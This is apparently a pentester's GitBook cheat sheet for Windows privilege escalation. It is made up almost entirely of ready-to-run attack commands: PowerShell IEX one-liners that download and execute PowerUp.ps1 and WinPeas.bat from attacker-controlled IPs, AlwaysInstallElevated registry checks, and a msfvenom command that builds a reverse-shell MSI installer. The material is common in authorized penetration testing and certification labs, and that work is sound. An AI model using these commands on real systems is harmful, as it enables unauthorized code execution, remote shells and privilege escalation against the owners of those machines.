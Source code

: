 # Windows



{% embed url="https://lolbas-project.github.io/" %}

{% embed url="https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md" %}

{% embed url="https://github.com/Tib3rius/Pentest-Cheatsheets/blob/master/privilege-escalation/windows/windows-examples.rst" %}

#### powerup

<pre data-overflow="wrap"><code><strong>
</strong>powershell -nop -exec bypass -c "IEX (New-Object Net.WebClient).DownloadString('http://192.168.49.129/PowerUp.ps1'); Invoke-AllChecks"

IWR -Uri http://192.168.45.5/PowerUp.ps1 -OutFile C:\tmp\PowerUp.ps1
. .\PowerUp.ps1 ; Invoke-AllChecks

Get-Command -Module powerup
</code></pre>

{% embed url="https://evi1cg.me/archives/Powerup.html" %}

#### winpeas / windows-exploit-suggester.py

{% code overflow="wrap" %}
```
winpeasany.exe
winpeas.bat
powershell "IEX (New-Object Net.WebClient).DownloadString('http://192.168.119.132:8080/WinPeas.bat')"

./windows-exploit-suggester.py --update
./windows-exploit-suggester.py --database 2014-06-06-mssb.xlsx --systeminfo systeminfo.txt
(cmd.exe /c "systeminfo")
```
{% endcode %}

### Windows

#### AlwaysInstallElevated install .msi shell

{% code overflow="wrap" %}
```
#see 0x1
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated

cmd.exe /c 'systeminfo | findstr /B /C:"Host Name" /C:"OS Name" /C:"OS Version" /C:"System Type" /C:"Hotfix(s)"'
(check system type x86 or x64)

msfvenom -p windows/x64/shell_reverse_tcp LHOST=172.16.1.30 LPORT=443 -a x64 --platform Windows -f msi -o shell.msi
```
{% endcode %}
